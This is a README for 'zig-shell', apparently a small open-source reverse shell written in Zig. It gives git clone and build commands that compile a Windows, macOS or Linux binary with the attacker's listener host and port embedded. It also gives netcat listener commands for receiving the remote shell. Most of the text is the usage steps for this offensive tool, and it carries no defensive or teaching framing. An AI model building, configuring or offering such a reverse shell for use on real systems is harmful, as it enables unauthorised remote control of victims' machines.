 # zig-shell
> simple reverse shell in zig

# usage
> download zig 0.14 from https://ziglang.org/download/ extract and add it to your path

1. `git clone https://github.com/ziggoon/zig-shell`
2. `cd zig-shell`
3. `zig build -Dos=windows -Darch=x86 -Dhost="192.168.0.1" -Dport=443`
4. binary will be output to ./zig-out/bin/

build.zig options: <br/>
`os`: operating system (windows, macos, linux) <br/>
`arch`: cpu architecture (x86 or arm) <br/>
`host`: ip / fqdn for your nc listener <br/>
`port`: port for your nc listener 

nc usage:
*nix: `nc -lvnp 443`
macos: `nc -lv 443`

*note: this probably works on all operating systems and cpu architectures i just haven't tested*
